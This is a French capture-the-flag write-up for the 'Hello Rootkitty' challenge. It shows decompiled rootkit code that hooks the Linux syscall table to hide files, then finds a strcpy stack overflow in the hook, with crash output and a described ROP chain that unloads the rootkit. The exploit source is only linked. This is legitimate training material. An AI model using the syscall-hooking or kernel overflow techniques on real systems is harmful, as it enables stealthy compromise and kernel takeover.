 # Hello Rootkitty 

## intitulé

```Une machine a été infectée par le rootkit Hello Rootkitty qui empêche la lecture de certains fichiers.
Votre mission : aider la victime à récupérer le contenu des fichiers affectés. Une fois connecté en SSH, lancez le wrapper pour démarrer le challenge.```

##Fichiers fournis
[bzImage](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/bzImage) le kernel linux [un script de Linus Torvalds himself](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) ...
[ecsc.ko](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/ecsc.ko) le rootkit sous forme de module kernel 
[initramfs.example.cpio](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/initramfs.example.cpio) Le système de fichier

## Analyse
Après avoir lancé le wrapper mentionné dans l'intitulé, on se rend compte que les fichiers commençants par "ecsc_flag_" ont un comportement étrange : on ne peut pas visualiser leur contenu et ils sont renommés automatiquement :
```~ $ echo "test" > ecsc_flag_1234
~ $ ls -al
total 0
drwxrwxrwx    2 ctf      ctf              0 May  4 19:44 .
drwxr-xr-x    3 root     root             0 Feb 25 09:30 ..
-r--------    0 root     root             0 Jan  0  1900 ecsc_flag_XXXX
~ $ cat ecsc_flag_XXXX
cat: can't open 'ecsc_flag_XXXX': No such file or direc****tory```
à noter qu'ils changent de propriétaire et de date.

En décompilant le module avec [ghidra](https://ghidra-sre.org/)  on comprend un peu mieux ce qu'il se passe :
Les syscalls **lstat**, **getdents**, **getdents64** sont *hookés* :
```long init_module(void)

{
  ulong *syscall_table;
  ulong in_CR0;
  
  syscall_table = (ulong *)kallsyms_lookup_name("sys_call_table");
  ref_sys_getdents64 = syscall_table[0xd9];
  original_cr0 = in_CR0;
  my_sys_call_table = syscall_table;
  syscall_table[0xd9] = (ulong)ecsc_sys_getdents64;
  ref_sys_getdents = syscall_table[0x4e];
  syscall_table[0x4e] = (ulong)ecsc_sys_getdents;
  ref_sys_lstat = syscall_table[6];
  syscall_table[6] = (ulong)ecsc_sys_lstat;
  return 0;
}```

le syscall [lstat](https://linux.die.net/man/2/lstat)  permet normalement d'afficher les attributs d'un fichier.
les syscalls [getdents](https://linux.die.net/man/2/getdents) et [getdents64](https://linux.die.net/man/2/getdents) permettent d'afficher le nom des fichiers.

Tout s'explique. On va donc étudier de plus près les hooks de ces syscalls, plus particulièrement celui des syscall **getdents** et **getdents64**. Voilà ce que donne la fonction ecsc_sys_getdents64 :
```ulong ecsc_sys_getdents64(ulong fd,dirent *dirp,ulong count)

{
  byte *__src;
  ulong result;
  uint *__src_00;
  uint *puVar1;
  uint *puVar2;
  long i;
  uint uVar3;
  uint uVar4;
  ulong Result;
  byte *pbVar5;
  byte *pbVar6;
  ulong uVar7;
  bool bVar8;
  bool bVar9;
  byte bVar10;
  char local_70 [10];
  undefined8 XXXX;
  
  bVar10 = 0;
  result = (*ref_sys_getdents64)();
  Result = result;
  do {
    if ((long)Result < 1) {
      return result;
    }
    uVar7 = (ulong)dirp->d_reclen;
    __src = (byte *)dirp->d_name;
    i = 10;
    bVar8 = Result < uVar7;
    Result = Result - uVar7;
    bVar9 = Result == 0;
    pbVar5 = __src;
    pbVar6 = (byte *)"ecsc_flag_";
    do {
      if (i == 0) break;
      i = i + -1;
      bVar8 = *pbVar5 < *pbVar6;
      bVar9 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (ulong)bVar10 * -2 + 1;
      pbVar6 = pbVar6 + (ulong)bVar10 * -2 + 1;
    } while (bVar9);
    if ((!bVar8 && !bVar9) == bVar8) {
      __src_00 = (uint *)**strcpy**(local_70,(char *)__src);
      puVar2 = __src_00;
      do {
        puVar1 = puVar2;
        uVar3 = *puVar1 + 0xfefefeff & ~*puVar1;
        uVar4 = uVar3 & 0x80808080;
        puVar2 = puVar1 + 1;
      } while (uVar4 == 0);
      bVar8 = (uVar3 & 0x8080) == 0;
      if (bVar8) {
        uVar4 = uVar4 >> 0x10;
      }
      if (bVar8) {
        puVar2 = (uint *)((long)puVar1 + 6);
      }
      Result = (long)puVar2 + (-(long)__src_00 - (ulong)CARRY1((byte)uVar4,(byte)uVar4)) + -0xd;
      if (0x3f < Result) {
        Result = 0x40;
      }
      uVar4 = (uint)Result;
      if (uVar4 < 8) {
        if ((Result & 4) == 0) {
          if ((uVar4 != 0) && (*(undefined *)((long)__src_00 + 10) = 0x58, (Result & 2) != 0)) {
            *(undefined2 *)((long)__src_00 + (Result & 0xffffffff) + 8) = 0x5858;
          }
        }
        else {
          *(undefined4 *)((long)__src_00 + 10) = 0x58585858;
          *(undefined4 *)((long)__src_00 + (Result & 0xffffffff) + 6) = 0x58585858;
        }
      }
      else {
        XXXX = 0x5858585858585858;
        *(undefined8 *)((long)__src_00 + (Result & 0xffffffff) + 2) = 0x5858585858585858;
        uVar4 = uVar4 + (((int)__src_00 + 10) - (int)(__src_00 + 4)) & 0xfffffff8;
        if (7 < uVar4) {
          uVar3 = 0;
          do {
            Result = (ulong)uVar3;
            uVar3 = uVar3 + 8;
            *(undefined8 *)((long)(__src_00 + 4) + Result) = 0x5858585858585858;
          } while (uVar3 < uVar4);
        }
      }
      **strcpy**((char *)__src,(char *)__src_00);
      return result;
    }
    dirp = (dirent *)((long)&dirp->d_ino + uVar7);
  } while( true );
}```

Sans s'attarder sur les détails on voit que :
1. le syscall original est appelé,
2. si le fichier débute par "ecsc_flag_", la suite du nom de fichier est remplacé par de "X"
3. la fonction fait des appels à **strcpy**, ce qui est très dangereux et peut provoquer des buffers overflow. D'une manière générale, on ne fait jamais appel à ces fonctions dans le kernel et les modules, en pivilegiant plutôt les fonctions comme [copy_from_user](https://www.kernel.org/doc/htmldocs/kernel-api/API---copy-from-user.html) par exemple.

Afin de tester la vulnérabilité et de connaitre l'offset pour lequel on overwrite la rip, nous allons faire appel à pwn tools :
```python
Python 2.7.17 (default, Apr 15 2020, 17:20:14) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(150)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma'
>>> ```
puis :
```cd /home/ctf
touch ecsc_flag_aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
ls -l```

on obtient :
```general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 53 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff932d81e19980 task.stack: ffff9ac3c009c000
RIP: 0010:==0x6163626161626261==
RSP: 0018:ffff9ac3c009ff38 EFLAGS: 00000282
RAX: 00000000000000e8 RBX: 6174616161736161 RCX: 0000000000000000
RDX: 00007fff048b3bd4 RSI: ffff9ac3c009ff61 RDI: 00007fff048b3b33
RBP: 617a616161796161 R08: ffff9ac3c009fed0 R09: ffffffffc00d7024
R10: ffff9ac3c009fec0 R11: 6161666261616562 R12: 6176616161756161
R13: 6178616161776161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffb9836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007fff048b3af0 CR3: 0000000001e98000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6163626161626261 RSP: ffff9ac3c009ff38
---[ end trace 85871824b1c07ee4 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x37e00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
Rebooting in 1 seconds..
```
Bingo ! pwntools nous donne l'offset en question :
```>>> cyclic_find(p64(0x6163626161626261))
102```

## Creation d'un exploit
On s'oriente donc vers un "simple" bufferoverflow. Ne sachant pas l'addresse de la stack et le kernel utilisé étant probablement assez recent, on va devoir utiliser une [ropchain](https://en.wikipedia.org/wiki/Return-oriented_programming). 

Notre ropchain va d'abord appeller la fonction **cleanup_module** (qui fait exactement l'inverse de la fonction **init_module** mentionnée plus haut, à savoir qu'elle restaure la table des syscalls afin que les fonctions originales du noyau soient utilisés). Puis on va dépiler la stack jusqu'à obtenir l'addresse de retour initial (dans **do_syscall_64**, la fonction qui gère les syscall). Le kernel reprendra donc un fonctionnement à peu près normal. Le but de la ropchain n'étant pas de passer root, mais de désactiver le rootkit. Un simple `cat /ecsc_flag_*` affichera le flag après passage de notre exploit.

Voici le [code de mon exploit](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/exploit.c).


